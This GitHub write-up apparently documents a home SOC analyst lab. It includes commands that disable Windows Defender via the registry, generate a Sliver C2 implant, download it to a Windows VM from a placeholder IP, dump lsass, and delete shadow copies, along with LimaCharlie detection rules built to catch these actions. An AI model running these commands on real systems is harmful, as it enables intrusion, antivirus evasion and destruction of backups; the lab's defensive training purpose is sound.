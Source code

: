 # SOC Analyst lab
Link to the Project (https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

## Objective
1. Setting up and managing a SOC environment.

2. Understanding how to detect, analyze, and respond to cyber threats.

3. Developing and tuning detection rules to identify malicious activities.

4. Learning how to implement threat mitigation strategies.

### Skills Learned

1.SOC Environment setup

2.Threat Dectection and Analysis

3.Rule Creation and Tuning

4.Incident Response and Mitigation

6.Threat Intelligence and reporting

### Tools Used
1. Virtualization Software

2. Security Information and Event Management (SIEM) tools

3. Network Monitoring 

4. Ubuntu Linux 

## Steps
# PART 1 
The first step was to set up the virtual environment. For this project "VMware Workstation Pro" by Broadcom was the software used. 

Ubuntu Server 22.04.1 ISO was the version used because this version comes pre Installed with necessary packages to do this project.

The VM Workstation created had the following specs: 14GB Disk size, 2 CPU cores, and 2GB RAM.

After downloading and setting everything up, I encountered my first error. I had to make sure DNS and outbound pings are working.


## This is what it is supposed to look like


![Screenshot (3)](https://github.com/user-attachments/assets/2565610e-979d-446e-99b8-ef3b094732ad)


## This is what I got

![Screenshot (2)](https://github.com/user-attachments/assets/ec614aca-52e4-477e-9de6-83bddb195d7c)

Seeing the response I noticed that I did not add a name server. To resolve the issue I entered the following command: 


sudo nano /etc/resolv.conf 


This allowed me to add a name server. I entered in 8.8.8.8 because it refers to one of Googles public DNS servers.


![Screenshot (4)](https://github.com/user-attachments/assets/87f0b3ad-9bb7-47e8-8401-b5bd41c820c1)

it started to work after the change.

![Screenshot (5)](https://github.com/user-attachments/assets/fe241b07-600a-4d1a-9b74-11c7776b2dec)


This Unbuntu VM will act as an attacker. Now that everything is working, I started to set up the windows VM. 

The link for the windows VM was not working so I  settled for a windows 11 x64 VM. After setting everything up, I disabled windows defender.

![Screenshot (6)](https://github.com/user-attachments/assets/2da84f22-48ab-48e5-a58a-17c487c0eb7b)

Ran the command to permanently disable defender via registry: 

REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f 

![Screenshot (7)](https://github.com/user-attachments/assets/1193917a-3529-4f9f-92f0-ba7eb4135684)

Now in safe mode, change the 7 sevices from 3 to 4.

![Screenshot (8)](https://github.com/user-attachments/assets/98048272-b3fc-4804-a79e-123731245f17)

Exit safe mode and it should be defender free.

Next I had to Install Sysmon which is a analyst tool.

 ![Screenshot (9)](https://github.com/user-attachments/assets/048b935d-f6b8-402c-bcb3-13300d366bb1)


LimaCharlie EDR is next to download. I had a little hiccup here. I had to put Lc_sensor.exe before the command line. I also had to enter DIR command to make sure lc_sensor.exe was there. It'll give an error message if lc_sensor.exe is entered in before the downloaded executable.

![Screenshot (10)](https://github.com/user-attachments/assets/9b6e2b30-f9ef-49d2-ab4a-b85c0c0ae42d)

Next was back to the attack system. I had to download sliver Linux server binary and create a directory for the future steps.


![Screenshot (11)](https://github.com/user-attachments/assets/d40b7860-deff-4c72-8783-067de2f4313d)

# Part 2 
generating C2 payload is next. I opened sliver server and entered the following command to generate payload:

generate --http [Linux_VM_IP] --save /opt/sliver

I also entered the command "implants" to confirm the implant configuration

![Screenshot (14)](https://github.com/user-attachments/assets/6be2b68a-9a64-4246-9c1d-2d05de389dcb)

Then I went back to the windows VM to download the C2 payload. In the windows command I entered the following command:

IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe


![Screenshot (15)](https://github.com/user-attachments/assets/6df9c14b-8cd7-4b60-ae17-414003419d7c)

Next is to start the command and control session. I went to the linux VM and enetered the command "http" which is the listener. In the wiundows VM, enter the download location of the executable (C:\Users\User\Downloads\<your_C2-implant>.exe) and the linux VM will pick it up.


![Screenshot (17)](https://github.com/user-attachments/assets/413b4899-32a1-4bcc-a790-3b5ef7d3889c)

I entered the "use" command to interact with the C2 session. Now that the linux VM is linked with the Windows, I went to Lima charlie to examine the EDR telemetry and to see if the C2 implant was present.


![Screenshot (19)](https://github.com/user-attachments/assets/98a6d627-e8a9-426b-8eb5-4bf4c50ed02f)

I also observed the timeline that shows window event logs(WEL) and EDR telemetry (NETWORK_CONNECTIONS)


![Screenshot (20)](https://github.com/user-attachments/assets/57a508ca-8069-493c-a930-6a9290061431)

# PART 3
This part was about crafting detections. This part uses lsass with the C2 implant I used in part 2. Lsass was not working for me (I am using a differnet VM because the correct VM downloads are unavailable)so I could not see this part through but I followed along with the website screenshots. First you start with a procdump command in the linux VM then you dectect it with LimaCharlie. lsass.exe is a known sensitive process "SENSITIVE_PROCESS_ACCESS" event is what you would search for in the timeline.


![image](https://github.com/user-attachments/assets/f72581a8-aa8d-424e-9cb9-1838318235a3)


Once you find the event, You can make a detection and response(D&R) rule that would alert anytime the activtiy(SENSITIVE_PROCESS_ACCESS) occurs


![image](https://github.com/user-attachments/assets/7309d48f-f75e-4123-a806-dd137e0d16bd)


![image](https://github.com/user-attachments/assets/30364e32-4a6b-419e-b40e-ba62df0fc38b)

![image](https://github.com/user-attachments/assets/bb23318c-6985-4f72-97ad-f0f8c9733dff)

![image](https://github.com/user-attachments/assets/f1b16971-7b17-4ae9-b385-3676095261bb)

Once the rule is made, you can go back to the linux VM and run the procdump command to test if the rule you made will work and detect the command


![image](https://github.com/user-attachments/assets/1c9a3908-8fab-4b0e-953c-c21683a328e2)

![image](https://github.com/user-attachments/assets/1241def0-18b1-4627-beec-89db52d063ec)

# PART 4
Part 4 is about blocking attacks. First I did the following command for Lima Charlie to detect:

vssadmin delete shadows /all

![Screenshot (21)](https://github.com/user-attachments/assets/bd354601-018c-46fc-9eda-9fa2d1a5ca5f)

![Screenshot (22)](https://github.com/user-attachments/assets/c2e071f6-d62f-4d41-af42-a06be25fbb49)

I opened the event from the timeline and created a detection & Response(D&R) rule.

![Screenshot (23)](https://github.com/user-attachments/assets/b1c492de-c1d5-41f5-8eb1-1d4cde8397be)


Then I tested if the rule worked and it blocked the command by kicking me out the shell.

![Screenshot (24)](https://github.com/user-attachments/assets/3cd1adb0-4b54-4fce-bb40-bb93b8689fb0)



